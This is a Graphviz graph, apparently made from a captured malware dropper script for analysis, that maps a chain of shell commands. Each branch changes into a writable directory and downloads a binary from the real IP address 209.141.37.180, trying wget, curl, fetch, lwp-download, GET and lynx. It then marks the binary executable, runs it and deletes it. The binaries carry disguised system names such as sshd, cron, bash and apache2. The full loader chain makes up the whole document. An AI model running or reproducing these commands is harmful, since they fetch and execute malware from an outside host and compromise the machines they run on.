 digraph {
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 10 [label="||,"];
10 [label="wget http://209.141.37.180/ntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://209.141.37.180/ntpd "];
12 -> 14 [label=";,"];
14 [label="fetch http://209.141.37.180/ntpd "];
14 -> 16 [label=";,"];
16 [label="lwp-download http://209.141.37.180/ntpd "];
16 -> 18 [label=";,"];
18 [label="GET http://209.141.37.180/ntpd "];
18 -> 20 [label=";,"];
20 [label="lynx -source http://209.141.37.180/ntpd "];
20 -> 22 [label=";,"];
22 [label="chmod +x ntpd "];
22 -> 24 [label=";,"];
24 [label="./ntpd "];
24 -> 26 [label=";,"];
26 [label="rm -rf ntpd "];
26 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 38 [label="||,"];
38 [label="wget http://209.141.37.180/sshd "];
38 -> 40 [label=";,"];
40 [label="curl -O http://209.141.37.180/sshd "];
40 -> 42 [label=";,"];
42 [label="fetch http://209.141.37.180/sshd "];
42 -> 44 [label=";,"];
44 [label="lwp-download http://209.141.37.180/sshd "];
44 -> 46 [label=";,"];
46 [label="GET http://209.141.37.180/sshd "];
46 -> 48 [label=";,"];
48 [label="lynx -source http://209.141.37.180/sshd "];
48 -> 50 [label=";,"];
50 [label="chmod +x sshd "];
50 -> 52 [label=";,"];
52 [label="./sshd "];
52 -> 54 [label=";,"];
54 [label="rm -rf sshd "];
54 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 66 [label="||,"];
66 [label="wget http://209.141.37.180/openssh "];
66 -> 68 [label=";,"];
68 [label="curl -O http://209.141.37.180/openssh "];
68 -> 70 [label=";,"];
70 [label="fetch http://209.141.37.180/openssh "];
70 -> 72 [label=";,"];
72 [label="lwp-download http://209.141.37.180/openssh "];
72 -> 74 [label=";,"];
74 [label="GET http://209.141.37.180/openssh "];
74 -> 76 [label=";,"];
76 [label="lynx -source http://209.141.37.180/openssh "];
76 -> 78 [label=";,"];
78 [label="chmod +x openssh "];
78 -> 80 [label=";,"];
80 [label="./openssh "];
80 -> 82 [label=";,"];
82 [label="rm -rf openssh "];
82 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 94 [label="||,"];
94 [label="wget http://209.141.37.180/bash "];
94 -> 96 [label=";,"];
96 [label="curl -O http://209.141.37.180/bash "];
96 -> 98 [label=";,"];
98 [label="fetch http://209.141.37.180/bash "];
98 -> 100 [label=";,"];
100 [label="lwp-download http://209.141.37.180/bash "];
100 -> 102 [label=";,"];
102 [label="GET http://209.141.37.180/bash "];
102 -> 104 [label=";,"];
104 [label="lynx -source http://209.141.37.180/bash "];
104 -> 106 [label=";,"];
106 [label="chmod +x bash "];
106 -> 108 [label=";,"];
108 [label="./bash "];
108 -> 110 [label=";,"];
110 [label="rm -rf bash "];
110 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 122 [label="||,"];
122 [label="wget http://209.141.37.180/tftp "];
122 -> 124 [label=";,"];
124 [label="curl -O http://209.141.37.180/tftp "];
124 -> 126 [label=";,"];
126 [label="fetch http://209.141.37.180/tftp "];
126 -> 128 [label=";,"];
128 [label="lwp-download http://209.141.37.180/tftp "];
128 -> 130 [label=";,"];
130 [label="GET http://209.141.37.180/tftp "];
130 -> 132 [label=";,"];
132 [label="lynx -source http://209.141.37.180/tftp "];
132 -> 134 [label=";,"];
134 [label="chmod +x tftp "];
134 -> 136 [label=";,"];
136 [label="./tftp "];
136 -> 138 [label=";,"];
138 [label="rm -rf tftp "];
138 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 150 [label="||,"];
150 [label="wget http://209.141.37.180/wget "];
150 -> 152 [label=";,"];
152 [label="curl -O http://209.141.37.180/wget "];
152 -> 154 [label=";,"];
154 [label="fetch http://209.141.37.180/wget "];
154 -> 156 [label=";,"];
156 [label="lwp-download http://209.141.37.180/wget "];
156 -> 158 [label=";,"];
158 [label="GET http://209.141.37.180/wget "];
158 -> 160 [label=";,"];
160 [label="lynx -source http://209.141.37.180/wget "];
160 -> 162 [label=";,"];
162 [label="chmod +x wget "];
162 -> 164 [label=";,"];
164 [label="./wget "];
164 -> 166 [label=";,"];
166 [label="rm -rf wget "];
166 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 178 [label="||,"];
178 [label="wget http://209.141.37.180/cron "];
178 -> 180 [label=";,"];
180 [label="curl -O http://209.141.37.180/cron "];
180 -> 182 [label=";,"];
182 [label="fetch http://209.141.37.180/cron "];
182 -> 184 [label=";,"];
184 [label="lwp-download http://209.141.37.180/cron "];
184 -> 186 [label=";,"];
186 [label="GET http://209.141.37.180/cron "];
186 -> 188 [label=";,"];
188 [label="lynx -source http://209.141.37.180/cron "];
188 -> 190 [label=";,"];
190 [label="chmod +x cron "];
190 -> 192 [label=";,"];
192 [label="./cron "];
192 -> 194 [label=";,"];
194 [label="rm -rf cron "];
194 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 206 [label="||,"];
206 [label="wget http://209.141.37.180/ftp "];
206 -> 208 [label=";,"];
208 [label="curl -O http://209.141.37.180/ftp "];
208 -> 210 [label=";,"];
210 [label="fetch http://209.141.37.180/ftp "];
210 -> 212 [label=";,"];
212 [label="lwp-download http://209.141.37.180/ftp "];
212 -> 214 [label=";,"];
214 [label="GET http://209.141.37.180/ftp "];
214 -> 216 [label=";,"];
216 [label="lynx -source http://209.141.37.180/ftp "];
216 -> 218 [label=";,"];
218 [label="chmod +x ftp "];
218 -> 220 [label=";,"];
220 [label="./ftp "];
220 -> 222 [label=";,"];
222 [label="rm -rf ftp "];
222 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 234 [label="||,"];
234 [label="wget http://209.141.37.180/pftp "];
234 -> 236 [label=";,"];
236 [label="curl -O http://209.141.37.180/pftp "];
236 -> 238 [label=";,"];
238 [label="fetch http://209.141.37.180/pftp "];
238 -> 240 [label=";,"];
240 [label="lwp-download http://209.141.37.180/pftp "];
240 -> 242 [label=";,"];
242 [label="GET http://209.141.37.180/pftp "];
242 -> 244 [label=";,"];
244 [label="lynx -source http://209.141.37.180/pftp "];
244 -> 246 [label=";,"];
246 [label="chmod +x pftp "];
246 -> 248 [label=";,"];
248 [label="./pftp "];
248 -> 250 [label=";,"];
250 [label="rm -rf pftp "];
250 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 262 [label="||,"];
262 [label="wget http://209.141.37.180/sh "];
262 -> 264 [label=";,"];
264 [label="curl -O http://209.141.37.180/sh "];
264 -> 266 [label=";,"];
266 [label="fetch http://209.141.37.180/sh "];
266 -> 268 [label=";,"];
268 [label="lwp-download http://209.141.37.180/sh "];
268 -> 270 [label=";,"];
270 [label="GET http://209.141.37.180/sh "];
270 -> 272 [label=";,"];
272 [label="lynx -source http://209.141.37.180/sh "];
272 -> 274 [label=";,"];
274 [label="chmod +x sh "];
274 -> 276 [label=";,"];
276 [label="./sh "];
276 -> 278 [label=";,"];
278 [label="rm -rf sh "];
278 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 290 [label="||,"];
290 [label="wget http://209.141.37.180/  "];
290 -> 292 [label=";,"];
292 [label="curl -O http://209.141.37.180/  "];
292 -> 294 [label=";,"];
294 [label="fetch http://209.141.37.180/  "];
294 -> 296 [label=";,"];
296 [label="lwp-download http://209.141.37.180/  "];
296 -> 298 [label=";,"];
298 [label="GET http://209.141.37.180/  "];
298 -> 300 [label=";,"];
300 [label="lynx -source http://209.141.37.180/  "];
300 -> 302 [label=";,"];
302 [label="chmod +x   "];
302 -> 304 [label=";,"];
304 [label="./  "];
304 -> 306 [label=";,"];
306 [label="rm -rf   "];
306 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 318 [label="||,"];
318 [label="wget http://209.141.37.180/apache2 "];
318 -> 320 [label=";,"];
320 [label="curl -O http://209.141.37.180/apache2 "];
320 -> 322 [label=";,"];
322 [label="fetch http://209.141.37.180/apache2 "];
322 -> 324 [label=";,"];
324 [label="lwp-download http://209.141.37.180/apache2 "];
324 -> 326 [label=";,"];
326 [label="GET http://209.141.37.180/apache2 "];
326 -> 328 [label=";,"];
328 [label="lynx -source http://209.141.37.180/apache2 "];
328 -> 330 [label=";,"];
330 [label="chmod +x apache2 "];
330 -> 332 [label=";,"];
332 [label="./apache2 "];
332 -> 334 [label=";,"];
334 [label="rm -rf apache2 "];
334 -> 336 [label=";,"];
336 [label="cd /tmp "];
336 -> 336
338 [label="cd /var/run "];
338 -> 340 [label="||,"];
340 [label="cd /mnt "];
340 -> 342 [label="||,"];
342 [label="cd /root "];
342 -> 344 [label="||,"];
344 [label="cd / "];
344 -> 346 [label="||,"];
346 [label="wget http://209.141.37.180/telnetd "];
346 -> 348 [label=";,"];
348 [label="curl -O http://209.141.37.180/telnetd "];
348 -> 350 [label=";,"];
350 [label="fetch http://209.141.37.180/telnetd "];
350 -> 352 [label=";,"];
352 [label="lwp-download http://209.141.37.180/telnetd "];
352 -> 354 [label=";,"];
354 [label="GET http://209.141.37.180/telnetd "];
354 -> 356 [label=";,"];
356 [label="lynx -source http://209.141.37.180/telnetd "];
356 -> 358 [label=";,"];
358 [label="chmod +x telnetd "];
358 -> 360 [label=";,"];
360 [label="./telnetd "];
360 -> 361 [label=";,"];
}
